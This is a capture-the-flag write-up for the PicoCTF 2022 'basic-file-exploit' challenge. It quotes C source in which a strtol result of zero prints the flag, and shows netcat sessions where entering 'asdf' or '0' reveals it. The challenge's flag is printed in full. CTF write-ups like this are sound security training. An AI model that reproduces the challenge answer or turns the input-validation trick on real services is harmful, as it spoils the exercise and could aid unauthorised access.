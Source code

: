 # PicoCTF 2022
## basic-file-exploit

Tags: Binary Exploitation
AUTHOR: WILL HONG

**Description**: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:

``$ nc saturn.picoctf.net 55825``

The program's source code with the flag redacted can be downloaded here [program-redacted.c].

## Solution / Explanation

Analyzing the source code provied in the challenge, the lines 143 to 147 we can identify the following code:

```
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
I'm not really an expert in C 🤷‍♂️, but it seems to tell me if ``entry_number`` is ``0``, it will print `puts()` me the flag. 

Searching the function ``strtol()`` on Google didn't give me much. Basically, this function covert the string to a long integer (?). 

So, I connected to the server and I tried to play around with the conditions: 

- If I insert "1" in the prompt, I can enter a new phrase and store it in the server, then I can press "2" and I'm able to read what I stored previously. 
- I noticed that the option "2" always returns "Read successfuly" with at least ONE stored result.

**Output:**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Oi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
52
52

Read successful, would you like to do anything else?
```

- If I start with the option 2, the server returns me "No data yet" and I can't retrieve anything.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Please put in a valid number
2
2
No data yet
```

- If I insert negative or big numbers, asks me for put valid numbers, but when I did that, it returns me "Maybe breaking the boundaries elsewhere will be helpful". That's the lines 188 to 191 in the source code ``program-redacted.c``

```
Please put in a valid number
1000
1000
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
-200
-200
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
```

- So I tried giving different inputs after insert one valid entry and got the flag as result. It also worked putting "0" as the input to echo the phrase in the database.

**asdf as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdf
asdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**0 as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

---
Daniel Reis (@danielxreis) - Cybersecurity Analyst